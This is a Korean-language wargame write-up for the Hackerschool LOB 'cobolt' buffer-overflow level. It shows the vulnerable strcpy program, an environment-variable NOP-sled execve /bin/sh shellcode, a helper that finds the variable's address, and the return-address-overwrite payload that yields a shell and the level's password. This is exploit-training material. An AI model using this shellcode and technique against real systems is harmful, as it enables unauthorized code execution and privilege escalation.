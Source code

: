 ```yaml
---
layout: post
title: "Hackerschool LOB-gremlin"
categories: [Hackerschool-LOB]
tags: [pwnable]
redirect_from:
 - /2019/07/24/
---
```

```bash
login: gremlin
Password:
[gremlin@localhost gremlin]$ ls
cobolt  cobolt.c
[gremlin@localhost gremlin]$ cat cobolt.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

```
gremlin/hello bof world로 접속하자.
이번에는 버퍼 크기가 굉장히 작다.
쉘 코드를 버퍼 안에 넣어서는 풀 수 없다.
이번에는 환경변수를 사용해야겠다.
```bash
[gremlin@localhost gremlin]$ export code=$(python -c 'print"\x90"*2000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"')
```
환경변수의 주소를 찾자.
```bash
[gremlin@localhost tmp]$ cat find.c
int main()
{
        printf("%x\n",getenv("code"));
}
[gremlin@localhost tmp]$ ./find
bffff2ff
````
환경변수의 주소:bffff2ff
이제 RET를 환경변수의 주소로 덮자.
```bash
[gremlin@localhost gremlin]$ ./cobolt $(python -c 'print"\x90"*20+"\xff\xf2\xff\xbf"')
릱릱릱릱릱릱릱릱릱릱??
bash$ my-pass
euid = 502
hacking exposed
```
성공이다.
gremlin's password:hacking exposed
